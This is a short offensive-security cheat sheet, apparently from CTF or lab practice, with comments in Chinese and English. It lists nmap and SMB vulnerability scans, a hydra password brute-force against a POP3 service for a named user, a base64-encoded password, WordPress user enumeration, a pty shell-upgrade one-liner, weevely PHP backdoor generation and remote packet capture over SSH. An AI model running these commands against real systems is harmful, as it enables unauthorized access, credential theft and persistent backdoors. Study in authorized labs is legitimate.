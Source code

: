 # 扫描arp，来检查周围的地址

netdiscover -i eth1

# nmap 完整扫描 or dirb scan

nmap -p- -A (IP)  or  dirb http://xxx
nmap -p445 --script smb-vulu* xxxx

# hydra

hydra -l boris -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3


echo `echo eFdpbnRlcjE5OTV4IQ== | base64 --decode`

# analyze JPEG file

exiftool xxx.jpg

# wordpress scan
wpscan --url http://xxx/wordpress --enumerate u --force --wp-content-dir wp-content


sudo python -c 'import pty; pty.spawn("/bin/sh")'

# 如果你有 ssh key，并且使用可以来登录ssh

ssh xx@xx -i key

# Make php backdoor generate

weevely generate jesse(username) xx.php

# Wireshark

wireshark -k -i <(ssh root@192.168.3.1 -p 22 tcpdump -i igb0 host 192.168.3.149 -U -w -)>

